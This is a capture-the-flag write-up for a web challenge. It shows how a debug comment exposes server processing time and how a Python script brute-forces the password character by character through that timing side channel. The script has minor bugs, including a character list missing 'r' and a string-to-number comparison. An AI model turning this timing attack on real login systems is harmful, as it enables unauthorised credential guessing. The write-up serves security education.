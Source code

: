 ```yaml
---
title: "[Writeup] ROP: 05 - Guessing Word"
date: 2020-03-17T22:00:00+07:00
categories: [writeup]
tags: [rop, web, ctf, writeup]
---
```


**DISCLAIMER: game.rop.sh was discontinued and is no longer available.**

**Challenge Name:** Guessing Word  
**Type:** Web  
**Score:** 200 pts  
**Link:** [https://game.rop.sh](https://game.rop.sh/task)  

![Challenge Description](/images/rop/05/rop_05_challenge.png)*Guessing Word challenge description*

<!--more-->

As usual, the challenge provides us with a link to the website. On the website, there's a text box and a button to submit the password that we need to "GUESS".

![Challenge Webpage](/images/rop/05/rop_05_webpage.png)*Webpage of the challenge*

Looking at the page source, we would see this:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="shortcut icon" href="../../docs-assets/ico/favicon.png">

    <title>Guessing Game</title>

    <!-- Bootstrap core CSS -->
    <link href="../../css/bootstrap.css" rel="stylesheet">

    <!-- Custom styles for this template -->
    <link href="signin.css" rel="stylesheet">

    <!-- Just for debugging purposes. Don't actually copy this line! -->
    <!--[if lt IE 9]><script src="../../docs-assets/js/ie8-responsive-file-warning.js"></script><![endif]-->

    <!-- HTML5 shim and Respond.js IE8 support of HTML5 elements and media queries -->
    <!--[if lt IE 9]>
      <script src="https://oss.maxcdn.com/libs/html5shiv/3.7.0/html5shiv.js"></script>
      <script src="https://oss.maxcdn.com/libs/respond.js/1.3.0/respond.min.js"></script>
    <![endif]-->
  </head>

  <body>

    <div class="container">
      <form class="form-signin" role="form" action="index.php" method="POST">
        <h3 class="form-signin-heading">Can you guess my password?</h3>
        <input type="password" class="form-control" placeholder="Password" name="password" required><br>
        <button class="btn btn-lg btn-primary btn-block" type="submit">Enter</button>
        <!-- ?debug for DEBUGGING -->
      </form>
    </div> <!-- /container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
  </body>
</html>
```

We can see that the form would send a POST request with the password in the textbox to **index.php**.
So let's try inputting *test* into the form and press *Enter*.

![Result](/images/rop/05/rop_05_wrong.png)*Result*

Apparently, we guessed wrong. Let's see the source.

```html
Wrong Password<br>
```

... Really? That's it? The whole source is just one line, without any comment as a hint at all.
We need to do something with the input of the form, one of the possibilities would be SQL Injection, but let's look at the source of the first page again, maybe we could find something.

```html
...
        <button class="btn btn-lg btn-primary btn-block" type="submit">Enter</button>
        <!-- ?debug for DEBUGGING -->
      </form>
...
```

Hmmm...? **?debug for DEBUGGING**? Let's try it then, changing the target of the POST request to **index.php?debug** and submit again.

![Debug Result](/images/rop/05/rop_05_wrong.png)*Result with ?debug*

The page looks the same; however, something interesting appears in the source.

```
Wrong Password<br><br><!-- Process Time: 0 -->
```

A comment telling us the process time! After several tries, we have found out that different inputs yield different processing times, and we can deduct the correct password from the processing time.

The code would probably look somewhat like this:

```py
correct_pass = "P@ssw0rd"
input = [User input]

wrong = False

# Different input sizes yield equal processing time, so it is probably made to be easy to crack.
for i in range (0, min(len(correct_pass), len(input))):
  if correct_pass[i] != input[i]:
    wrong = True
    break

if len(correct_pass) != len(input):
  wrong = True

if !wrong:
  print("Correct Password")
else:
  print("Wrong Password")
```

With this code, the program would run longer if more characters of the input matches the correct password. Therefore, we can bruteforce it character by character and pick the one with the longest processing time.

I wrote a simple Python script to send POST requests and bruteforce the password.

```py
import requests
import re

url = "https://game.rop.sh/chall/5/index.php?debug"
  
password = ""
charlist = "0123456789abcdefghijklmnopqustuvwxyz!@#$%^&*()_-+="

for i in range(30):
    maxtime = 0
    tempchar = ''
    end = False
    for c in charlist:
        temppass = password + c
        data = {'password':temppass}
        r = requests.post(url = url, data = {"password":temppass})
        
        wrong = re.search('Wrong', r.text)
        if not wrong:
            tempchar = c
            end = True
            break

        find = re.search('Process Time: ([\d\.]+)', r.text)
        if find:
            time = find.group(1)
            if time > maxtime:
                maxtime = time
                tempchar = c
    password = password + tempchar
    print(password)
    if end:
        break

print("Key = " + password)
```

The script would rotate the characters from the list to send as an input, after that, it would save the one with the longest process time and pick the further characters.

After waiting for a while, we got our password.

![Script Output](/images/rop/05/rop_05_output.png)*Script Output*

Inputting this key manually on the website yields this result:

![Result](/images/rop/05/rop_05_key.png)*Result*

Success!
